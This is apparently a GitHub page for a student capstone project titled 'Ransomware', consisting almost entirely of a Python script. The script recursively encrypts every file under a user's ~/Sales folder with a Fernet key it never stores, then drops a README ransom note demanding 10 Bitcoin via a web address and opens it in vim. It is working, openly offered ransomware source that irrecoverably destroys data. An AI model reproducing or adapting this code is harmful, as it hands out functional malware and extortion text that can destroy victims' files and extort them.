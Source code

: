 # Ransomware
Capstone for Fullstack Academy 


#!/usr/bin/python3

import sys
import subprocess
import os
from cryptography.fernet import Fernet  # Import Fernet directly
import pathlib  # Use pathlib instead of path

# Check and install cryptography if not already imported
try:
    from cryptography.fernet import Fernet
except ImportError:
    subprocess.run(["pip", "install", "cryptography"])

# Generate a key
key = Fernet.generate_key()
fernet = Fernet(key)

# Set the directory path to encrypt
directory_to_encrypt = os.path.expanduser('~/Sales')  # Use expanduser to get the user's home directory

# Loop through the directory and its subdirectories
for root, dirs, files in os.walk(directory_to_encrypt):
    for filename in files:
        filepath = os.path.join(root, filename)

        # Encrypt the chosen file
        with open(filepath, 'rb') as file:
            original = file.read()
        
        encrypted = fernet.encrypt(original)

        with open(filepath, 'wb') as encrypted_file:
            encrypted_file.write(encrypted)

# Create a readme.txt file
readme_file_path = os.path.join(directory_to_encrypt, 'README.txt')
with open(readme_file_path, 'w') as readme_file:
    readme_file.write("You have been hacked by the Swindlers :)\nEverything inside your sales folder has now been encrypted.\nSend us 10 Bitcoin at this URL if you would like your files back. www.swindlerzwinz.com/payday")

subprocess.run(["vim", "/home/kali/Sales/README.txt"])
